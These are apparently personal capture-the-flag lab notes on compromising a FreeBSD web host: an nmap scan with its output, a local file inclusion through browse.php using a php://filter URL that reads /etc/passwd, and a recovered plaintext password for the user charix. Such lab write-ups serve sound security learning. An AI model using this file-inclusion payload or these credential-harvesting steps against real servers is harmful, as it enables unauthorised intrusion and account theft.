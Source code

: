 ##### nmap

All port scan
```bash
sudo nmap -sS -T5 -p- 10.10.10.84 -oA nmap2 -v
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Service scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
##### manual

- Navigated to website
![[Pasted image 20240901131533.png]]
Seems like it allows us to run php scripts
- listfiles.php
![[Pasted image 20240901131614.png]]
Found a file pwdbackup.txt
- pwdbackup.txt
![[Pasted image 20240901131647.png]]
- Using the same functionality, LFI is possible on the webserver
![[Pasted image 20240901132318.png]]

Using PHP wrapper class to extract information base64 encoded
`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`

We know the password is encoded 13 times. Base64 decoded 13 times and found a valid password
`Charix!2#4%6&8(0`

`charix:Charix!2#4%6&8(0`
